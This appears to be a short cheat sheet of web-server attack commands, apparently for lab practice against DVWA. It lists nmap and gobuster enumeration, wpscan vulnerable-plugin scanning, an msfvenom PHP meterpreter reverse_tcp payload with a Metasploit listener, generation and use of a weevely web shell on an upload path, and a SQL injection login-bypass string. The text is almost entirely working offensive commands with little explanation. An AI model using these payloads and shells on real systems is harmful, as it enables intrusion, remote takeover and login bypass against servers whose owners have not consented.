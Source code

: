 #### Enumerate server using nmap (applications, directories, and files)

```sh
nmap -sV --script http-enum [HOST]
```

#### Fast-paced enumeration of the hidden files and directories of the target web application using Gobuster

```sh
gobuster dir -u [HOST] -w [DICTIONARY]
```

### Attack website

```sh
wpscan --api-token [API Token] --url [HOST] --plugins-detection aggressive --enumerate vp
```

--enumerate vp: Specifies the enumeration of vulnerable plugins.

#### Create meterpreter php payload and encode using msfvenom

```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw
```

Upload and open the file in the web server...

```sh
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT 4444
run
```

#### Webshell using weevely

```sh
weevely generate [PASSWORD] [FILE PATH]
```

Upload the shell to the web server...

```sh
weevely http://10.10.10.16:8080/dvwa/hackable/uploads/shell.php [PASSWORD]
```

### SQL Injection

#### Try to bypass website login forms

```sh
admin' --
```
